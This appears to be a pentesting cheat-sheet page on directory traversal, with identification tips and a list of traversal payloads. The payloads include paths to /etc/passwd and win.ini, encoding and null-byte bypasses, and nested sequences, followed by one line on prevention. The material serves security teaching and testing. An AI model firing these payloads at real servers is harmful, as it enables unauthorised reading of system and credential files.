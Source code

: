 # Directory Traversal

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

Read arbitrary files (code, data, sensitive files, creds...)

{% hint style="info" %}
At the beginning, try     ./   or   ..
{% endhint %}

## Identification and exploitation

{% hint style="info" %}
Try to read a file as file=.env or go back some dirs like file=../../config/file.php



Identify the existent webservers and frameworks and look for sensitive files.



Not always try to read the absolute path. If we do not know it, try relative path.



If we access [https://example.com/cms/login.php?language=en.html](https://example.com/cms/login.php?language=en.html), we should try to navigate to the file directly ([https://example.com/cms/en.html](https://example.com/cms/en.html)). If we can successfully open it, we can confirm that **en.html** is a file on the server, meaning we can use this parameter to try other file names.

Use curl and Burp for this attack rather than the browser directly.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```sh
########## Reading arbitrary files via path traversal
#  Imagine a shopping app that displays images of items for sale. This might load an image using the following HTML: 
<img src="/loadImage?filename=218.png">
https://insecure-website.com/loadImage?filename=../../../etc/passwd
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

##### COMMON BYPASSES
# Absolute path
filename=/etc/passwd
# nested traversal sequences
....//
....\/
# Double URL-encoding and others
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..%c0%af
..%ef%bc%8f
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
# start with the expected base folder
filename=/var/www/images/../../../etc/passwd
# Null byte to end with an expected file extension
filename=../../../etc/passwd%00.png

########## HOW TO PREVENT
Avoid passing user-supplied input to filesystem APIs altogether.
```